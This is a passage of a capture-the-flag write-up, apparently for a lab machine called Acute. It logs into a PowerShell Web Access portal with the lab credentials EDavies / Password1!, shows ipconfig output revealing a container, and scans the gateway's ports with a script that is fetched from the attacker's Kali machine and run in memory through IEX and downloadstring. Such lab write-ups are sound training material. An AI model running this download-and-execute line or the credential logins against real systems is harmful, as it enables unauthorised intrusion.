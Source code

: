 So now we have all the pieces to try to login at https://atsserver.acute.local/Acute_Staff_Access/. After try and error we login as `edavies`:
```
User name: EDavies
Password: Password1!
Computer Name: Acute-PC01
```

## PSWA as edavies
We have a PowerShell session as `edavies`. Looking at the network configuration we can see that we are not in the main machine, but in a container:
```
PS C:\Users\edavies\Documents> ipconfig /all

Windows IP Configuration
   Host Name . . . . . . . . . . . . : Acute-PC01
   Primary Dns Suffix  . . . . . . . : acute.local
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : acute.local

Ethernet adapter Ethernet 2:
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft Hyper-V Network Adapter #2
   Physical Address. . . . . . . . . : 00-15-5D-E8-0A-01
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::9513:4361:23ec:64fd%14(Preferred) 
   IPv4 Address. . . . . . . . . . . : 172.16.22.2(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.22.1
   DHCPv6 IAID . . . . . . . . . . . : 251663709
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-29-29-1F-44-00-15-5D-E8-02-00
   DNS Servers . . . . . . . . . . . : 172.16.22.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

### Enumerate ports open
I will use [Minimalistic-offensive-security-tools](https://github.com/InfosecMatter/Minimalistic-offensive-security-tools) to enumerate the ports open:
In Kali
```bash
$ python3 -m http.server 80
```
In the PSWA
```PowerShell
IEX(New-Object Net.Webclient).downloadstring('http://10.10.14.14/port-scan-tcp.ps1')
```

IEX will download and load the script. If you try to download it and execute manually using curl or other method then it will not work.
Now run below command to start finding open ports on the gateway IP address:
```PowerShell
1..1024 | foreach { port-scan-tcp 172.16.22.1 $_ }
```
